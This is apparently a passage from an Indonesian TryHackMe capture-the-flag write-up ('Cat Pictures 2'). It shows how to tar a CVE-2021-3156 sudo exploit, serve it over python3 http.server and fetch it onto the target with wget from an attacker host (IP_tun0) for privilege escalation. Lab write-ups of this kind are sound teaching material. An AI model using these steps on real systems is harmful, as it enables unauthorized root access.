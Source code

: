 ![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2027.JPG)

- Zip file tersebut dengan `tar`
```sh
tar -cvf exploit.tar CVE-2021-3156
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2028.JPG)

- Serving file zip tersebut dengan python3
```sh
python3 -m http.server 80
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2029.JPG)

- Download zip tersebut ke server dan lakukan ekstrak
```sh
cd /tmp
wget http://IP_tun0/exploit.tar
tar xopf exploit.tar
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2030.JPG)
